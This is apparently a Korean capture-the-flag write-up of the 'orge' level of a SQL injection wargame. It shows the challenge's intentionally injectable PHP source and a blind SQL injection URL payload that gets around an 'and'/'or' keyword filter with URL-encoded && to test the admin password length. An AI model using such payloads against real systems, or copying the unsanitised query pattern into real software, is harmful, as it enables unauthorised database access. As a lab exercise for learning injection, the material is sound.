

query : select id from prob_orge where id='guest' and pw=''
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
이번에도 admin의 pw를 blind sql injection을 통해 찾아야 할 것 같다. and연산자는 &&로 우회할 수 있는데 필터링이 되어있는지 작동을 안 하니 %26%26으로 대체하였다.
guest조건을 거짓으로 만들고 id=‘admin’일때 그 admin의 pw를 blind injection한다.
https://los.eagle-jump.org/orge_4~0.php?pw=' || id='admin' %26%26 LENGTH(pw)=8--%20 >>참값이 나옴
이번에도 8글자다. 파이썬으로 찾아준다.